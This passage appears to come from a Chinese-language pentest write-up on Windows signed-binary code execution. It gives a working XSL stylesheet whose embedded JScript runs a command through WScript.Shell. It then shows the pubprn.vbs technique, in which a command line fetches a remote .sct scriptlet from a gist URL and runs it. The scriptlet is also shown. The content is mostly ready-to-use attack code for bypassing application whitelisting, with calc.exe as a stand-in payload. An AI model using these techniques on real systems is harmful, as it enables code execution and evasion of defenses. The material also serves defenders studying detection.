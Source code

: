 ```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
```

exec.xsl

```xml
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
  
<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;
  
   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```



![](http://img-upaiyun-own.test.upcdn.net/20200413-14.png)



**15、pubprn.vbs**【验证成功】

在Windows 7以上版本存在一个名为PubPrn.vbs的微软已签名WSH脚本，其位于C:\Windows\System32\Printing_Admin_Scripts\en-US，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给GetObject()

```powershell
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct

```

test.sct

```xml
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
	>
</registration>
<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```